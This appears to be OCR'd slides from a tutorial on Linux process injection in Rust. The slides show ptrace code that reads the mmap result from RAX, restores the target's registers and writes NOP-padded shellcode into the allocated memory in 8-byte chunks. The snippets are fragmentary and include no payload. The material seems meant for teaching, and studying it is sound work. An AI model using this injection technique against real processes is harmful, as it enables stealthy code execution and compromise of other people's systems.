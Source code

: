 # Allocate memory in the target process

### Getting the return value of mmap and restoring the registers

The return value of the mmap syscall is the address of the allocated memory. We can get this value by reading the `RAX` register after the syscall has executed.

```rust
      ...
      ptrace(PTRACE_GETREGS, target_pid, NULL_PTR, &mut regs);
      if allocated_address == 0 || allocated_address == u64::MAX {
        println!("Error: {}", io::Error::last_os_error());
        return Err(io::Error::new(
            io::ErrorKind::Other,
            "Invalid memory address allocated",
      ));

      ptrace(PTRACE_POKETEXT, target_pid, regs.rip as *mut libc::c_void, original_regs.rip as *mut libc::c_void);
      if ptrace(PTRACE_SETREGS, target_pid, NULL_PTR, &original_regs) == -1 {
          return Err(io::Error::last_os_error());
      }

      Ok(allocated_address)
```

--- #19

# Writing the shellcode to the allocated memory

Now the memory has been allocated we can write the shellcode to the memory. To do this we need to write the shellcode in chunks of 8 bytes at a time using the `PTRACE_POKEDATA` constant. We must make sure the shellcode is aligned to 8 bytes, This is done by adding a NOP sled.

```rust
fn write_shellcode(pid: pid_t, mut address: u64, shellcode: &[u8]) -> Result<(), std::io::Error> {
    println!("Writing shellcode to address: 0x{:x} in process id {}", address, pid);
    let mut padded_shellcode = shellcode.to_vec();
    while padded_shellcode.len() % 8 != 0 {
        padded_shellcode.push(0x90); // NOP sled padding
    }
```

--- #20

# Writing the shellcode to the allocated memory

### Blowing chunks

```rust
    unsafe {
        let mut data = [0u8; 8];

        for (_, chunk) in padded_shellcode.chunks(8).enumerate() {
            for (j, &byte) in chunk.iter().enumerate() {
                data[j] = byte;
            }

            let word = u64::from_le_bytes(data);
            if ptrace(PTRACE_POKEDATA, pid, address as *mut libc::c_void, word as *mut libc::c_void) == -1 {
                return Err(std::io::Error::last_os_error());
```